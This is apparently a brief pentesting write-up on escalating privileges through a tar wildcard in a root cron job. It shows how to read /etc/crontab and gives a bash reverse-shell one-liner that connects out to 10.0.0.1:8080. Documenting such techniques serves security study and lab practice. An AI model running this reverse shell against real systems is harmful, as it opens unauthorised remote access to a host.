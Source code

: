 # Detection

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/96658935/147715175-c186b55f-8203-4db1-a3df-378e09d4af2a.png)


![image](https://user-images.githubusercontent.com/96658935/147715206-ce3daf50-014c-4230-88fd-ff7839ab8b43.png)

From the output, notice the wildcard (*) used by ‘tar’.

# Exploitation

Create a reverse bash script and give it executable permissions
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[OR]

anytype of reverse shell

![image](https://user-images.githubusercontent.com/96658935/147715530-66a0121b-9e16-4cc2-ac10-84a20ada9329.png)


the you just wait for a shell

![image](https://user-images.githubusercontent.com/96658935/147715541-2448ebe4-696e-4a34-8a62-364e393b7d03.png)
